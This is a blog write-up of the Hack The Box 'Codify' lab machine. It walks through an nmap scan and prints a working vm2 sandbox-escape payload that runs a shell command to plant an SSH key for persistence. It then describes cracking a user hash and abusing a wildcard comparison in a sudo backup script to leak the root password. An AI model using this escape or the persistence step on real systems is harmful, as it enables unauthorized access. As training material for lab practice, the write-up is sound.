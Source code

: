 ```yaml
---
layout: post
title:  "[HTB] Codify"
date:   2024-07-03
categories: CTF
---
```


As usual let us start with our nmap scan

---

└─# nmap -vv 10.10.11.239
Starting Nmap 7.94 ( https://nmap.org ) at 2024-08-09 05:07 EDT
Initiating Ping Scan at 05:07
Scanning 10.10.11.239 [4 ports]
Completed Ping Scan at 05:07, 0.17s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:07
Completed Parallel DNS resolution of 1 host. at 05:07, 0.05s elapsed
Initiating SYN Stealth Scan at 05:07
Scanning 10.10.11.239 [1000 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 05:07, 1.20s elapsed (1000 total ports)
Nmap scan report for 10.10.11.239
Host is up, received echo-reply ttl 63 (0.081s latency).
Scanned at 2024-08-09 05:07:22 EDT for 2s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.49 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1003 (40.372KB)

---

Seeing that there is port 80 open, add codify.htb to our /etc/hosts and look at the web application

![alt text](/assets/uploads/htb-codify/image.png)

Seeing that this is a web application that we can test our node.js code, maybe we can also execute a node.js script for a reverse shell such as the one provided here https://gist.github.com/secoats/44b9b42920ac4a825e54e7310303cfdb, and just setup a listener on port 5555. BUT upon trying this, it doesnt work because the module "child_process" is not allowed.

![alt text](/assets/uploads/htb-codify/image-1.png)

So maybe this machine is not that straightforward. Looking more into the web application and we see that it is using vm2 to prevent harmful code being executed on the system. Researching about this revealed a way to bypass the vm2 protection - https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

So now let us use this "web shell" that we got to insert an ssh public key to the current user's .ssh/authorized_keys so that we can just ssh to the machine as shown below

---

const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('mkdir .ssh ; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHa14zd5sTen4GB7qgt++IU1jzZR2y9A0OfMHsoVtjAc root@kali" > .ssh/authorized_keys ');
}
`

console.log(vm.run(code));

---

And now we can just connect to it via ssh

![alt text](/assets/uploads/htb-codify/image-3.png)

So investigating more on the machine, we see that there is another user called joshua, so probably we need to get a way to login to his account. Enumerating more on the machine, we see that there is a file in /var/www/contact called tickets.db and if we look at it, we see that it contains joshua's password hash which we can crack locally using john the ripper

![alt text](/assets/uploads/htb-codify/image-2.png)

![alt text](/assets/uploads/htb-codify/image-4.png)

Now that we have joshua's password, we can just login to his account via ssh and get the user flag

![alt text](/assets/uploads/htb-codify/image-5.png)

Looking for privilege escalation pathways, we check his sudo privileges and we see that we can run the /opt/scripts/mysql-backup.sh script

![alt text](/assets/uploads/htb-codify/image-6.png)

Reading closely what this code do, this essentially asks for the db root's password and checks it with the password that can be found on /root/.creds (which we do not have any access to) and if it is correct, it creates a backup directory and backs up the contents of the database.

The issue here is that the comparison that is being used to check if the user entered password is within [[ ]] which is just a partial match based on a pattern rather than a full match. So for example [[ "aa*" == "aaa" ]] will return true since the * represents a wildcard. 

Then the script passes the database's password from the /root/.creds file instead of using the password that the user entered as detailed on this line

---

/usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db/gzip

---

With these in mind, we can just run pspy on the machine to monitor the running processes, and run the script and enter the password "****" which will essentially match the password string.

![alt text](/assets/uploads/htb-codify/image-7.png)

![alt text](/assets/uploads/htb-codify/image-8.png)

Now we see that the database's password is "kljh12k3jhaskjh12kjh3" and we can access the database

![alt text](/assets/uploads/htb-codify/image-9.png)

However upon investigating the contents of the database, there seems to not have any content related to the root's password. With this I just tried to change user to root and use the password "kljh12k3jhaskjh12kjh3" and viola!

![alt text](/assets/uploads/htb-codify/image-10.png)